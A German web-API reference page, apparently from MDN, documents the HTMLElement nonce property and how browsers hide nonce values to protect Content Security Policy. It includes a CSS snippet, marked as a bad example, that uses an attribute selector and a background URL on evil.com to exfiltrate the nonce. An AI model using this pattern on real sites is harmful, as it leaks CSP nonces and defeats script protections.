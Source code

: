 ```yaml
---
title: "HTMLElement: nonce-Eigenschaft"
short-title: nonce
slug: Web/API/HTMLElement/nonce
l10n:
  sourceCommit: e9b6cd1b7fa8612257b72b2a85a96dd7d45c0200
---
```


{{APIRef("HTML DOM")}}

Die **`nonce`**-Eigenschaft des [`HTMLElement`](/de/docs/Web/API/HTMLElement)-Interfaces gibt die kryptografische Nummer zurück, die einmal verwendet wird, um vom [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP) zu bestimmen, ob ein bestimmter Abruf ausgeführt werden darf.

In späteren Implementierungen geben Elemente ihr `nonce`-Attribut nur an Skripte weiter (und nicht an Nebenkanäle wie CSS-Attributselektoren).

## Beispiele

### Abrufen eines nonce-Wertes

In der Vergangenheit unterstützten nicht alle Browser das `nonce` IDL-Attribut, daher war ein Workaround, [`getAttribute`](/de/docs/Web/API/Element/getAttribute) als Fallback zu verwenden:

```js
let nonce = script["nonce"] || script.getAttribute("nonce");
```

Allerdings verbergen neuere Browserversionen `nonce`-Werte, die auf diese Weise abgerufen werden (ein leerer String wird zurückgegeben). Die IDL-Eigenschaft (`script['nonce']`) wird der einzige Weg sein, um Nicht-Kopplungen zuzugreifen.

Das Verbergen von Nonce hilft, Angreifer daran zu hindern, Nonce-Daten über Mechanismen zu exfiltrieren, die Daten aus Inhaltsattributen abrufen können, wie diesem CSS-Selektor:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`nonce` globales Attribut](/de/docs/Web/HTML/Reference/Global_attributes/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP)
- CSP: {{CSP("script-src")}}
